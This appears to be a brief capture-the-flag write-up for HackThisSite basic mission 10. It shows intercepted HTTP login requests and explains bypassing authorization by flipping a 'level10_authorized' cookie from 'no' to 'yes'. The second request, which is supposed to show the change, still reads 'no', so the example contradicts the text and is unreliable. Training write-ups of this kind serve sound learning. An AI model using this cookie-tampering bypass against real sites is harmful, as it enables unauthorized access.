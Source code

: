 So the challenge is only showing password field nothing written nothing in source code 

but when we put any password and intercept the request using burp we found this header
```text
POST /missions/basic/10/index.php HTTP/1.1
Host: www.hackthissite.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://www.hackthissite.org/missions/basic/10/
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Cookie: level10_authorized=no; _pk_id.1.1039=698497548ef239b8.1520769090.2.1520861954.1520861653.; PHPSESSID=picgn6dtvjl7hki6kkp3ukind6; _pk_ses.1.1039=*
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

password=asd
```
where **level10_authorized=no** is set to no , now if we change this to yes we will solve the challenge just send any random password
and change the **level10_authorized=yes** and we are good to go

```
POST /missions/basic/10/index.php HTTP/1.1
Host: www.hackthissite.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://www.hackthissite.org/missions/basic/10/
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Cookie: level10_authorized=no; _pk_id.1.1039=698497548ef239b8.1520769090.2.1520861954.1520861653.; PHPSESSID=picgn6dtvjl7hki6kkp3ukind6; _pk_ses.1.1039=*
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

password=qwe
```
